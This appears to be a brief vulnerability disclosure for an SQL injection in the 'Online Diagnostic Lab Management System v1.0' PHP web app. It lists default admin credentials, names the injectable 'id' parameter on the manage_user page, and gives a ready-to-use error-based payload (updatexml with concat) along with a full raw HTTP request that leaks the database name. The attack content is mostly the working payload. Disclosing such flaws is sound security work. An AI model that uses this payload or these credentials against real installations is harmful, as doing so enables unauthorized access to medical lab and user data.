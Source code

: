 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 云影

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/?page=user/manage_user&id=

Vulnerability location: /odlms/admin/?page=user/manage_user&id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/?page=user/manage_user&id=6%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /odlms/admin/?page=user/manage_user&id=6%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191256866-208d77b3-be8e-4a13-8ab1-53560d95aa03.png)
